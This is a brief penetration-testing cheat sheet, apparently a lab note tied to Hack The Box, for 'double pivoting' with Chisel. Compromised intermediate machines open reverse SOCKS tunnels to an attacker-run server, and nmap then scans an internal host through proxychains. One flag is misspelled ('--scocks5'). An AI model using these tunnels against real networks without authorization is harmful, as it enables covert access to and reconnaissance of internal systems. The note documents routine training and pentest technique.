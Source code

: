 ```yaml
---
icon: squirrel
---
```


# Chisel - Double Pivoting

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Attacker Machine

```
./chisel server -p 3333 --reverse


# Edit proxychains4.conf
sudo nano /etc/proxychains4.conf

Add -> socks5 127.0.0.1 1111
Add -> socks5 127.0.0.1 5555
```

## Second Machine (M 1)

```
./chisel32 server -p 2222 --reverse --scocks5 


# After completing steps on all the machines
./chisel32 client <server ip>:3333 R:1111:socks
```

## Third Machine (M 2)

```
./chisel32 client <second machine ip>:2222 R:5555:socks
```

## Scan Fourth Machine (M 3)

```
proxychains nmap -sT -p 22 <m3 machine ip>
```

##

## REFERENCES

* [https://forum.hackthebox.com/t/attacking-enterprise-networks-double-pivot-using-chisel/267043](https://forum.hackthebox.com/t/attacking-enterprise-networks-double-pivot-using-chisel/267043)&#x20;

